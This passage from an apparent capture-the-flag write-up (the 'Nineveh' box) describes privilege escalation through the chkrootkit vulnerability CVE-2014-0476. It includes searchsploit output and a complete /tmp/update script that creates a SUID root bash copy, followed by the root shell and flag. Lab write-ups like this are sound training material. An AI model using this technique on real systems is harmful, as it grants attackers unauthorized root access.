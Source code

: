 We can see from the output that it looks like the script "/root/vulnScan.sh" is being run, which in turn runs "/usr/bin/chkrootkit", among other commands.

Let's check the exploit database for "chkrootkit".

```
└─$ searchsploit chkrootkit                                                           
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                            | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                    | linux/local/33899.txt
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

There is a known local privilege escalation exploit. Let's have a closer look.

{% embed url="https://www.exploit-db.com/exploits/33899" %}

> We just found a serious vulnerability in the chkrootkit package, which may allow local attackers to gain root access to a box in certain configurations (/tmp not mounted noexec).

## Privilege Escalation

Tp exploit the "chkrootkit" vulnerability (CVE-2014-0476), we need to create a file named "update" in the "/tmp" directory. We'll add some commands in the file to give us escalated privileges. Note that we could escalate our privileges multiple different ways using this vulnerability, we just chose to do it this way arbitrarily.

&#x20;First, create the "/tmp/update" file. Then wait up to a minute, and check our home directory for the new SUID binary. We can then run the binary to get a shell as root, and grab the root flag.

```
amrois@nineveh:~$ cat /tmp/update
#!/bin/bash
cp /bin/bash /home/amrois/priv; chown root:root /home/amrois/priv; chmod u+s /home/amrois/priv
amrois@nineveh:~$ ls -la priv
-rwsr-xr-x 1 root root 1037528 Nov 30 10:28 priv
amrois@nineveh:~$ ./priv -p
priv-4.3# id
uid=1000(amrois) gid=1000(amrois) euid=0(root) groups=1000(amrois)
priv-4.3# cat /root/root.txt
d722a562ce34f9bfd663ac512e64e515
priv-4.3# 
```

{% hint style="info" %}
NOTE: The privilege escalation can also be done with the "www-data" user as well. Finding the "/report" directory would have led us down the same path.&#x20;
